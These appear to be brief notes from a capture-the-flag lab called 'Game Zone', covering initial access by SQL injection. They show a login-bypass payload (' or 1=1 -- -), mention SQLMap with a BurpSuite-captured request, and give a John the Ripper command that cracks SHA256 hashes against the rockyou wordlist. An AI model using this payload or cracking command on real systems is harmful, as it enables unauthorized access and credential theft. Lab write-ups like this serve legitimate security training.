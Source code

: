 # Game Zone 

## Obtain initial access via SQLi 

- SQLi commands
    `SELECT * FROM users WHERE username = :username AND password := password`
    `SELECT * FROM users WHERE username = admin AND password :=' or 1=1 -- -`


## Using SQLMap 
- SQLMap is an open-source, automatic SQL injection and database takeover tool.

- Grab a request with BurpSuite and save it as a text file than then you can pass into SQLMap

- Use John the Ripper to crack the hash 
  `john hash.txt --wordlist=/usr/share/wordlist/rockyou.txt --format=Raw-SHA256`